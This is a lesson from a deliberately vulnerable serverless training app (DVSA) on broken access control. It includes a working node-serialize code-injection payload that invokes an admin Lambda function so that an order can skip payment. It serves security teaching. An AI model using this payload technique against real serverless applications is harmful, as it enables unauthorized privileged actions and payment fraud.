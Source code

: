 # LESSON #5: Broken Access Control

The DVSA applicaiton has some admin functions. Although these functions are not available through the standard API calls, the function that receives the API calls has permissions to invoke any function. Since the function is vulnerable to [code injection](../LESSONS/LESSON_01.md) is it possible to invoke admin function using the standard API calls.

This means that by invoking the right funciton at the right time, we can skip the payment. But, first, we start with the normal flow:

- ```{"action": "new", "cart-id": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx", "items": { "<item-id>":<qty>, "<item-id>":<qty>, ... }}```

- ```{"action": "shipping", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"address":"<address>", "email":"<email>", "name":"<name>"}}```

- ```{"action": "billing", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"ccn":"4242424242424242", "exp":"11/22", "cvv":"123 }}```

Now that we have an order that is missing only the payment, let's exploit.

To admin function receives an order Id and the parameters to update, so we can send something like that:
```
neworder = {"body":{"action":"update", "order-id": "cc241d5c-f665-48db-8e55-4391f62465ba", "item":{"userId": "12312312-1233-1233-1233-123123123123", "token": "aSD32d2ASd2", "ts": "1545594489", "itemList": {"20":2}, "address": {"name": "john doe", "email": "secret@email.com", "address": "po box 12333"}, "total":25, "status":120}}}
```

Now, we have to pass it as part of the exploit itself:
```'{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify(' + new_order + ');var a=require(\\"aws-sdk\\");var l=new a.Lambda();var x={FunctionName:\\"DVSA-ADMIN-UPDATE-ORDERS\\",InvocationType:\\"RequestResponse\\",Payload:p};l.invoke(x, function(e,d){});}()"}'
```

Which eventually looks like that:

```{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify({\"body\": {\"action\": \"update\", \"item\": {\"status\": 120, \"userId\": \"12312312-1233-1233-1233-123123123123\", \"ts\": 1545594489, \"token\": \"aSD32d2ASd2\", \"itemList\": {\"20\": 2}, \"address\": {\"address\": \"po box 131337\", \"name\": \"john doe\", \"email\": \"secret@email.com\"}, \"total\": 25}, \"order-id\": \"cc241d5c-f665-48db-8e55-4391f62465ba\"}});var a=require(\"aws-sdk\");var l=new a.Lambda();var x={FunctionName:\"DVSA-ADMIN-UPDATE-ORDERS\",InvocationType:\"RequestResponse\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

![alt stealing](https://i.imgur.com/4XofIS8.png)

We got an error from the API function. But the database was updated with the new data. Since we did not issue a SQS notification for the payment, the receipts will be proccessed with a daily cron-job function. However, it is already possible to see it in the orders page.
